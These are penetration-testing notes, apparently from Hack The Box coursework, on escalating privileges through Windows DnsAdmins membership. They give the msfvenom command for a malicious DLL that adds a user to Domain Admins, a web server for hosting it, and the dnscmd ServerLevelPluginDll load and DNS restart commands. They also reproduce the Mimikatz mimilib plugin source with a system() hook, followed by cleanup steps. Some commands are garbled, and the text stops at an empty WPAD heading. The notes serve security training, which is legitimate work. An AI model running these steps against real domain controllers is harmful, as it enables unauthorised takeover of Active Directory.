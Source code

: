 The Windows DNS service supports custom plugins and can call functions from them to resolve
name queries that are not in the scope of any locally hosted DNS zones.

The DNS service runs as `NT AUTHORITY\SYSTEM`. Membership in this group could potentially be
leveraged to escalate privileges on the DC or in a situation where a separate server is acting
as the DNS server for the domain.

It's possible to use the built-in `dnscmd` utility to specify the path of the plugin DLL.
Here's an example of an attack when DNS is run on a DC:

https://adsecurity.org/?p=4064

- DNS management is performed over RPC
- `SeverLevelPluginDll` allows us to load a custom DLL with no verification of the path using `dnscmd`
- When a `DnsAdmins`  group member runs the command below, the `ServerLevelPluginDll` regkey is populated.

- When the DNS service is restarted, the DLL in this path will be loaded 
- (ie, a network share DC can access).

- An attacker can load a custom DLL to obtain a reverse shell or load tools like Mimikatz as a DLL.

## Leveraging DnsAdmins Access

##### Generating Malicious DLL
```bash
msfvenom - windows/x64/exec cmd=
	'net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

sudo python3 -m http.server 7777
```

- Download the DLL to the target
- Use the `dnscmd` utility to load a custom DLL with non-privileged user
```
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
( Access Denied )

Get-ADGroupMember -Identity DnsAdmins
```

- Only DnsAdmins are allowed to perform this
- Restart the DNS service/Wait for a Server restart

##### Finding User's SID for the DNS Service
```
wmic useraccount where name="netadm" get sid
sc.exe sdshow DNS
sc stop dns
sc start dns
net group "Domain Admins" /dom
```

Here's an explaination of Security Descriptor Definition Language (SDDL) syntax:
https://academy.hackthebox.com/module/49/section/1016

## Cleaning Up For Our Customer
```
reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
					/v ServerLevelPluginDll
sc.exe start dns
sc query dns
```

## Using Mimilib.dll

```cpp
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(
	PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, 
	PLUGIN_FREE_FUNCTION pDnsFreeFunction
)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(
	PSTR pszQueryName, 
	WORD wQueryType, 
	PSTR pszRecordOwnerName, 
	PDB_RECORD *ppDnsRecordListHead
)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```

## Creating a WPAD Record

